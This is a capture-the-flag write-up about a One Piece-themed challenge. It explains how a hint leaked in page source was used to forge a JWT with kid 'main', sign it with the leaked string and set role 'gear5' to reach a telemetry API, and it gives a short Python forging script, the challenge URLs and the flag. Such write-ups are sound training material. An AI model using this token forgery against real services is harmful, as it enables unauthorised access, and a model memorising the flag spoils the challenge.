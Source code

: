 # CTF Write-up: JWT Forgery and API Exploitation

## Challenge Summary
The challenge provided a hint in the `/cam-feed/` source code:
```javascript
// Who knew a Mushi could log credentials? Try jwt 'kid' = 'main'
// X-JOY-AUTH: NIKA-NIKA-NO-MI
```
Additionally, a Swagger endpoint was exposed:
```
https://ggggfajajs.onrender.com/swagger-joyboy
```
From this, various API endpoints were found, most of which were restricted. However, the following endpoint stood out:
```
https://ggggfajajs.onrender.com/api/system/telemetry
```
This endpoint returned an error message indicating that a JWT token was required.

## Exploitation Steps
### Step 1: Crafting the JWT Token
To access the telemetry API, a JWT token was needed. Based on the hint, we set the `kid` (Key ID) to `main` and initially tried signing it with a random secret key. However, this resulted in an error:
```
Signature verification failed
```
### Step 2: Using the Provided Secret Key
From the source code hint, we noticed `X-JOY-AUTH: NIKA-NIKA-NO-MI`. Using this as the signing key, we generated a new JWT token. However, upon using it, we received:
```
You are not ready for Gear 5.
```
### Step 3: Understanding "Gear 5"
A quick search on "Gear 5" led to the understanding that it refers to the 5th transformation of Luffy in *One Piece*. Based on this, we assumed the token payload needed a parameter related to "gear5".

### Step 4: Modifying the Payload
We modified the JWT payload by adding:
```json
{"role": "gear5"}
```
This time, the request was successfully accepted, and we received the flag!

## Tools Used
Python script for JWT forging:
```python
import jwt

# JWT Header
header = {
    "alg": "HS256",
    "typ": "JWT",
    "kid": "main"
}

# JWT Payload
payload = {"role": "gear5"}

# Secret Key
secret = "NIKA-NIKA-NO-MI"

# Generate JWT
token = jwt.encode(payload, secret, algorithm="HS256", headers=header)
print(token)
```

## Conclusion
Flag: HICA{gear5_awakening_joyboy_legacy}
